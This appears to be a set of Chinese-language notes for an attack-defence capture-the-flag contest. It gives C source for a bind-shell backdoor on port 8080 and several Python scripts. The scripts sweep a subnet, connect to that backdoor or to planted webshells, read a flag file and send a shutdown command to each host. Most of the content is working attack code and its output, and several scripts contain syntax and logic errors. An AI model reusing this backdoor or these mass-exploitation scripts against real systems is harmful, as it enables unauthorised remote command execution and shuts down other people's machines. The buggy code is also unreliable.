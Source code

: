 # 脚本
## 后门程序
autorunp.c
```
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
int sock, cli;
struct sockaddr_in serv_addr;

int main()
{
serv_addr.sin_family = 2;
serv_addr.sin_addr.s_Addr = 0;
serv_addr.sin_port = 0x901F;

sock = socket(2, 1, 0);
bind(sock, (struct sockaddr *)&serv_addr, 0x10);
listen(sock, 1);
cli = accept(sock, 0, 0);
dup2(cli, 0);
dup2(cli, 1);
dup2(cli, 2);
execve("/bin/sh", 0, 0);
}
```
该程序功能为在端口8080上运行/bin/sh 可通过瑞士军刀连接。比赛可能能直接利用这个后门，或者根据这个程序给出一个不完整的，来填写完整。
## 脚本
网段设置为172.16.1.1/16，靶机设为254，flag假设在/root/flagvalue.txt，webshell及shell设在web目录下/var/www 届时根据实际状况进行修改。
### nc.py
```
import pexpect #引用pexpect模块
for ip in range(1,256): #设置循环从1到254
    a = pexpect.spawn('nc 172.16.'+str(ip)+'254 8080') #设置连接参数
    a.setecho(False) #关闭反复回显
    a.sendline('cat /root/flagvalue.txt') #发送cat命令查看flag值
    a.sendline('shutdown -h now') #发送shutdown命令
    a.sendline('exit')退出
    print ('ip:'+str(ip))
    print (a.read()) #返回cat获取的flag值
    a.close #结束a 然后开始新的循环
```
### nc.py运用实例
在靶机上使用正则表达式查询进程，发现有相关进程。
![查询进程](_v_images/20191128150412540_5615.jpg)
使用netstat -an命令查看端口开放情况。
![8080端口开放](_v_images/20191128150524592_21566.png)
发现8080端口开放，证实存在后门程序，编写脚本利用。
![编写netcat连接脚本](_v_images/20191128150624906_10730.png)
这里设置的执行命令是cat flag*（即cat获取所有文件名flag开头的文件）和whoami(查看当前用户)，执行。
![执行结果](_v_images/20191128150819965_14928.png)
其中在ip128（即192.168.222.128）靶机上获取到了flag值，和当前用户root。
## web1.py
通过webshell获取flag值,即时获取flag,并写入flag.txt。
```
import urllib #引用urllib模块
num =1 #设置初始值为1
f = open("flag.txt","wb") #设置写入的记事本和写入方式并打开文件
while num <256: #设置条件循环，当num<256时就循环执行
    try: #正常执行
        ip = str(num) #设置ip为num值
        print (ip) #输出ip
        url = "http://172.16."+ip+".254:80/webshell.php?cmd=cat%20/root/flagvalue.txt" #设置url
        flag = urllib.urlopen(url).read() #通过urllib.urlopen().read()方法读取url页面的内容
        f.write("172.16."+ip+".10:") #将具体的ip写入flag.txt
        f.write(flag) #写入flag（即读取url页面的内容）
        f.write("\n") #换行
        print (flag) #输出flag值
        num = num + 1 #将num值+1
    except: #执行出错时,则执行except下的语句
        num = num + 1 #将num值+!
f.close() #关闭文件
```
### web1.py运用实例
查看靶机网站目录
![网站目录](_v_images/20191128151846335_19277.png)
发现有webshell.php，使用kali进行查看。
![webshell](_v_images/20191128151934511_11895.png)
尝试输入命令cat /root/flag*
![webshell键入cat](_v_images/20191128191151234_27780.png)
返回了flag值，可利用，可以复制url，来编写脚本利用。
![web1](_v_images/20191128191411489_15853.png)
这里的url也可以直接用上一图复制的url。编写完成，然后执行。
![web1输出结果](_v_images/20191128192213245_8308.png)
由于是获取整个web页面 所以输出的书整个web的源代码。然后查看flagz.txt
![flagz文本内容](_v_images/20191128192317702_18506.png)
只有一台靶机，所以flagz.txt只显示192.168.222.128。
## web2.py
较web1.py减少了写文件，代码更少 比较不容易出错。
```
import requests #引用requests模块
for i in range(1,256): #设置循环
	ip = '172.16.'+str(i)+'.254' #设置ip
	url = 'http://'+ip+'/webshell.php?cmd=cat%20/root/flagvalue.txt' #设置url
	try: #正常执行
		html = requests.get(url) #获取url页面的值
		print(ip,html.content) #输出ip和获取到的页面内容
	except: #执行出错时，则执行except下的语句
		pass #空语句，即跳过
```
### web2.py运用实例
使用的情况参照web1.py运用实例，直接进入编写阶段，下图中的webshell.py即web2.py。
![web2](_v_images/20191128193022619_10100.png)
这里编写的是对单个ip的脚本，如果要对多个ip需要使用循环。忽略掉第四行，编写完成，然后执行。
![执行web2的结果](_v_images/20191128193452663_30503.png)
输出结果如图，复制flag值时要把换行符忽略掉。
## shell.py
主要用来连接自己上传的木马（如一句话木马，weevely木马等）连接木马程序然后执行命令
```
import requests #引用requests模块
for i in range(1,256): #设置循环
    ip = "http://172.16."+str(ip)".254" #设置ip
    shell ="/shell.php" #这是木马所在的路径
    passwd = "cmd" #木马的密码(比如一句话木马设置的密码)
    port = "80" #网站端口
    payload={ #设置载荷
        passwd:'system(\'cat /root/flagvalue.txt \');' #执行cat命令
                        'system(\'shutdown -h now \');' #如果设置多条命令要严格设置缩进
    }
    url = ip+':'+port+shell #设置完整的url 即http://172.16.str(ip).254:80/shell.php
    try: #正常执行
        print (url) #输出url
        response = requests.post(url,payload,timeout=1) #连接，并执行载荷
        print (response.text) #输出获取到的flag
    expect: #执行出错时，则执行except下的语句
        pass #空语句，即跳过
```
